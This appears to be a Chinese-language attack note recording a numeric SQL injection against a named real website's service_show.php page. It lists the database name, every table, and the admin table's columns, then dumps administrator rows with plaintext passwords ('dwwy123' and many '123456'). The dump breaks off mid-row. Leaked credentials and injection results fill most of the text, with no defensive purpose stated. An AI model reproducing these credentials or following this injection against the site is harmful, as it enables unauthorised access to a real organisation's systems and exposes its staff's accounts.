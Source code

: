 #### 1.https://www.szdwwy.com/service_show.php?id=1

数字型注入，13列，

库：hdm721879657_db

库下表：about,admin,applicant,content,contentlm,fujia_tiaojian,hdp,history,honor,honorlm,images,left_nav,links,nav,news,newslm,personnel,recruit,service,servicelm,society,societylm,team,train,ziduan,ziduan_con

admin表中字段：

id,name,intime,adminpass,right_li,right_li_b,checks,level_id,companyname,num

admin表的内容：

```
1~admin~1501822000~dwwy123~~~0~1~总管理员~1725,
74~宿管（东区）中心~~123456~~~0~0~宿管（东区）中心~76,
13~楼宇（北区）服务中心~~123456~~~0~0~楼宇（北区）服务中心~31,
16~校园绿化服务中心~~123456~~~0~0~校园绿化服务中心~10,
17~独墅湖一分部~~123456~~~0~0~独墅湖一分部~16,
18~独墅湖二分部~~123456~~~0~0~独墅湖二分部~8,
19~园区物业二分部~~123456~~~0~0~园区物业二分部~4,
20~园区物业一分部~~123456~~~0~0~园区物业一分部~11,
21~园区物业三分部~~123456~~~0~0~园区物业三分部~2,
22~附一院物业分部~~123456~~~0~0~附一院物业分部~13,
23~城区物业分部~~123456~~~0~0~城区物业分部~15,
24~交通银行物业分部~~123456~~~0~0~交通银行物业分部~2,
25~酒店接待服务中心~~123456~~~0~0~酒店接待服务中心~3,
26~吴中（吴江）物业分部~~123456~~~0~0~吴中（吴江）物业分部~1,
27~南京物业一分部~~123456~~~0~0~南京物业一分部~48,
28~山东物业分部~~123456~~~0~0~山
```

